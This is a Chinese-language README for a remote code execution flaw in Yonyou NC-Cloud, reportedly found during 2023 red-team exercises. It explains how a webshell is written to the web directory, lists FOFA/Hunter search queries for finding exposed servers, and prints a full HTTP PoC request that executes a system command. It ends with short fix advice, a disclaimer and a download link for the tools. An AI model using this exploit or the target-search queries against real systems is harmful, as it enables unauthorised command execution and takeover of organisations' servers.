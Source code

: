 # 用友-NC-Cloud远程代码执行漏洞[2023-HW]

## 简介
本资源文件提供了关于用友-NC-Cloud远程代码执行漏洞的详细信息和相关工具。该漏洞是在2023年HW期间被发现的，攻击者可以通过特定的接口调用服务中的方法，直接在服务器上执行任意代码，从而获取服务器的控制权。

## 漏洞详情
该漏洞是通过请求特定的接口，然后调用"nc_itf_iufo_IBaseSPService"服务中的"saveXStreamConfig"方法进行请求，直接往webapps/nc_web/目录写马，最后访问刚才写的马，调用 `Runtime.getRuntime().exec("command")` 来执行系统命令，并通过 `getInputStream()` 获取该命令的输出流，然后使用 `IOUtils.toString()` 方法将输出流转换为字符串。

## 资产搜索
- **FOFA**: app="用友-NC-Cloud"
- **鹰图**: web title="大型企业数字化平台"
- **Hunter**: web body="uap/rbac"

## 漏洞复现
通过接口写马，把马写到web目录：webapps/nc_web/。具体的PoC请求示例如下：
```http
POST /0811.jsp?error=bsh.Interpreter HTTP/1.1
Host: xxx.xxx.xxx.xxx:xxxx
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: cookiets=1681785470496; JSESSIONID=33989F450B1EA57D4D3ED07A343770FF;server
If-None-Match: W/"1571-1589211696000"
If-Modified-Since: Mon, 11 May 2020 15:41:36 GMT
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 98

cmd=org.apache.commons.io.IOUtils.toString(Runtime.getRuntime().exec("ifconfig").getInputStream())
```

## 修复建议
1. 更新至最新版本。
2. 配置WAF规则拦截敏感字符：eval(param、param_error等。

## 免责声明
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。

## 下载链接

[用友-NC-Cloud远程代码执行漏洞2023-HW](https://pan.quark.cn/s/d704944b68fd)